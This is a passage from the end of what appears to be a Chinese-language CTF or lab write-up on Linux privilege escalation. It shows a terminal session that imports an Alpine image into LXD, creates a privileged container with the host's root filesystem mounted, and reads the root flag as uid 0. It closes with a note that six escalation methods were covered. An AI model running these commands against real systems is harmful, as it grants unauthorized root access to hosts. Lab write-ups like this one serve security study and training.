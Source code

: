 alpine-v3.8-i686-20210926_2341.tar.gz                      100%[========================================================================================================================================>]   2.56M   722KB/s    in 3.6s    

2021-09-29 09:42:56 (722 KB/s) - ‘alpine-v3.8-i686-20210926_2341.tar.gz’ saved [2684439/2684439]

bash-4.4$ ls
alpine-v3.8-i686-20210926_2341.tar.gz  p.txt                                                                    systemd-private-cdd8179bf3ba4745b2f268da926b2a33-systemd-resolved.service-qOqtw7
f                                      systemd-private-cdd8179bf3ba4745b2f268da926b2a33-apache2.service-qmXFBf  systemd-private-cdd8179bf3ba4745b2f268da926b2a33-systemd-timesyncd.service-PIgav5
bash-4.4$ lxc image import ./alpine-v3.8-i686-20210926_2341.tar.gz --alias myimage
Image imported with fingerprint: a4b76201ae71d9a5e56acf1263f61546a77a4086779729bb254d47cd24cb6829
bash-4.4$ lxc init myimage ignite -c security.privileged=true
Creating ignite
bash-4.4$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
bash-4.4$  lxc start ignite
bash-4.4$ lxc exec ignite /bin/sh
~ #  id
uid=0(root) gid=0(root)
~ #  cd /mnt/root/
/mnt/root #  ls
bin             cdrom           etc             initrd.img      lib             lost+found      mnt             proc            run             snap            sys             usr             vmlinuz
boot            dev             home            initrd.img.old  lib64           media           opt             root            sbin            srv             tmp             var             vmlinuz.old
/mnt/root #  cd root/
/mnt/root/root #  pwd
/mnt/root/root
/mnt/root/root #  ls
root.txt
/mnt/root/root #  cat root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
/mnt/root/root #  
```
这里列出了6种提权的方法，但我感觉应该还有其他方法，这里就不再测试了。如果你知道其他提权的思路，请留言告诉我： )